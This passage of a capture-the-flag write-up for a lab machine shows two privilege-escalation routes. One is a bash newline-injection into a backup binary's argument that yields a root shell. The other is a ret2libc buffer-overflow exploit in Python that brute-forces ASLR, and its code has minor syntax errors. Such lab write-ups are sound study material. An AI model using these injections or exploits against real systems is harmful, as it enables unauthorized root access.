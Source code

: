 ## Bash multi-line injection
**Full credits to `0xdf` for this method as I, completely forgot about this behaviour of bash.**
```python
tom@node:~$ backup magisk 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "abc
> bash
> "

*** SNIP ***

 [+] Validated access token
 [+] Starting archiving abc
bash

        zip warning: name not matched: abc 

zip error: Nothing to do! (try: zip -r -P magicword /tmp/.backup_2020787766 . -i abc)
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@node:~#
```

## Intended route the `ret2libc` BOF exploit
The binary is not compiled with `ASLR` but system wide `ASLR` is on that means the address of `libc` is always changing. The binary also as `NX` that means we cannot put shellcode on the stack and jump to it and execute it.

That leaves us with only with `ret2libc`.
The file path is using a `strcmp` which is bufferoverflowable and can successfully overflow the `$eip` which is at the offset `512`. We could now get the `libc` address using `ldd` on the binary and get the offsets of the `system`, `exit` by using `readelf -s` on the `libc` and the address of `/bin/sh` using `strings -atx` on the `libc` and grepping for `/bin/sh`.
We have to run this exploit on a while True loop to bruteforce `ASLR` and get a shell.

The exploit code (copied from hackthebox official writeup)
```python
import struct, subprocess
libc = 0xf75e2000
sysOffset = 0x0003a940
sysAddress = libc + sysOffset
exitOffset = 0x0002e7b0
exitAddress = libc + exitOffset
binsh = libc + 0x0015900b
payload = "A" * 512
payload += struct.pack("<I", sysAddress)
payload += struct.pack("<I", exitAddress)
payload += struct.pack("<I", binsh)
attempts = 0
while True:
	attempts += 1
	print "Attempts: " + attempts
	subprocess.call(["/usr/local/bin/backup", "-i","3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110",payload]
```

